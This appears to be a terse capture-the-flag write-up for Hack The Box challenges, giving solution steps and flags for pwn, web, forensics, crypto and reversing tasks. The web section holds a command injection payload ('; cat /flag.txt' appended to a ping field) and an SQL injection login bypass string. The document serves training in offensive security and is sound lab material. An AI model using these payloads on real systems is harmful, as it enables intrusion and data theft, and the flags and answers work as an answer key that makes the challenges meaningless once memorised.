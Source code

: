 # PWN:
    
## Initialise Connection:
nc 165.232.100.46 30002
```HTB{g3t_r34dy_f0r_s0m3_pwn}```

## Questionnaire:
- nc 165.232.98.69 30697
- 64-bit
- Dynamic
- vuln()
- 0x20
- gg()
- fgets()
- 40
- gdb ./test -> gdb p gg
- 0x401176
```HTB{th30ry_bef0r3_4cti0n}```

    

# Web:

## Trapped Source:
Keypad PIN hardcoded in page source:
        
    window.CONFIG = window.CONFIG || {
        buildNumber: "v20190816",
        debug: false,
        modelName: "Valencia",
        correctPin: "8291",
    }

```HTB{V13w_50urc3_c4n_b3_u53ful!!!}```

## Gunhead:
Source reveals that user input is passed directly to curl command via ping command
execute arbitrary commands by appending to ping e.g. /ping localhost; whoami
flag in /flag.txt -> /ping localhost; cat /flag.txt
```HTB{4lw4y5_54n1t1z3_u53r_1nput!!!}```

## Drobots:
Bypass login with SQL injection
username: " or ""="
password: " or ""="    
```HTB{p4r4m3t3r1z4t10n_1s_1mp0rt4nt!!!}```

# Forensics:

## Plaintext Treasure:
Open wireshark
Statistics -> Conversations (only two endpoints)
tab TCP, notice port 1337
Filter tcp.port == 1337 && http
first packet is POST/token -> follow HTTP stream
```password is HTB{th3s3_4l13ns_st1ll_us3_HTTP}```

## Alien Cradle:
Open powershell script, find this line:
'H' + 'T' + 'B' + '{p0w3rs' + 'h3ll' + '_Cr4d' + 'l3s_c4n_g3t' + '_th' + '3_j0b_d' + '0n3}
Remove '+' signs and concatenate string:
```HTB{p0w3rsh3ll_Cr4dl3s_c4n_g3t_th3_j0b_d0n3}```

# Crypto:

## Ancient Encodings:
Python script shows input text is base64 encoded then converted to hex:
Use python or cyberchef or another tool:
convert hex to string (from hex)
base64 decode
```HTB{1n_y0ur_j0urn3y_y0u_wi1l_se3_th15_enc0d1ngs_ev3rywher3}```
        
# Reversing:

## Hunting License
nc 206.189.112.129 31332 (questionnaire)
Answers:
```elf```
```x86_64```
```libreadline.so.8``` (ldd license | strings license | ghidra)
```00401172``` (memory address of main, gdb license -> info functions | ghidra)
```5```(how many puts in main, gdb or ghidra)
```PasswordNumeroUno``` (strings license)
```0wTdr0wss4P``` (strings license)
```P4ssw0rdTw0``` (reverse above)

Third pass:
G{zawR}wUz}r (strings license)
0x13 (XOR key for above, cyberchef XOR brute force)
ThirdAndFina.. (first half of password(?))
